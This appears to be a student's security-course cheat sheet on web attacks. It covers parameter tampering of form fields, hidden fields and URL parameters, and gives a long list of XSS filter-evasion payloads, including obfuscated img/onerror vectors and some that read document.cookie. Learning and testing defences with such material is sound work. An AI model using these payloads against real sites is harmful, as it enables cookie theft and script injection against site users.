 # SC MST Cheat Sheet

###### tags: #SC 

## Table of Contents
```toc
```

## Parameter Tampering
### Tampering of Form Fields
- Form field values can be tampered on Burp Suite by intercepting packets and forwarding them

### Hidden Field
- If a website uses hidden fields to store status information, malicious user can tamper with the values stored in their browser and change the referred information
- Values can be modified via by inspecting elements in the web browser

### Tampering with URL Parameters
- URLs can show parameters and values can be modified:
```
# Original
https://www.example.com/defaut.asp?profile=123&value=123

# Modified (Statuses)
https://www.example.com/defaut.asp?profile=123&value=123&status=read
https://www.example.com/defaut.asp?profile=123&value=123&status=del
```

## XSS Filter Evasion
- Basic XSS Test
```html
<script>alert("Hello World!")</script>
```

### Image XSS Using JavaScript Directive
- No quotes or semicolons
```html
<img src=javascript:alert('XSS')>
```
- HTML entities
```html
<IMG SRC=javascript:alert(&quot;XSS&quot;)>
```
- Grave accent obfuscation
```html
<IMG SRC=`javascript:alert("RSnake says, 'XSS'")`>
```
- Malformed `<a>` tags
```html
\<a onmouseover=alert(document.cookie)\>xxs link\</a\>
`\<a onmouseover="alert(document.cookie)"\>xxs link\</a\>`
```
- Malformed `<img>` tags
```html
<IMG """><SCRIPT>alert("XSS")</SCRIPT>"\>
```
- `fromCharCode` (if no quotes of any kind are allowed, use `eval()` to create any XSS vector)
```html
<IMG SRC=javascript:alert(String.fromCharCode(88,83,83))>
```
- Default `src` tag to get past filters that check SRC domain
```html
<IMG SRC=# onmouseover="alert('xxs')">
```
- Default `src` tag by leaving it empty
```html
<IMG SRC= onmouseover="alert('xxs')">
```
- Default `src` tag by leaving it out entirely
```html
<IMG onmouseover="alert('xxs')">
```
- On error alert
```html
<IMG SRC=/ onerror="alert(String.fromCharCode(88,83,83))"></img>
```
- `img onerror` and JavaScript alert encode
```html
<img src=x onerror="&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041">
```
- Embedded tab
```html
<IMG SRC="jav ascript:alert('XSS');">
```
- Embedded encoded tab
```html
<IMG SRC="jav&#x09;ascript:alert('XSS');">
```
- Embedded newline to breakup XSS
```html
<IMG SRC="jav&#x0A;ascript:alert('XSS');">
```
- Spaces and meta characters before the JavaScript in images for XSS
	- Useful if the pattern match does not take into account spaces in the word `javascript`
```html
<IMG SRC=" &#14; javascript:alert('XSS');">
```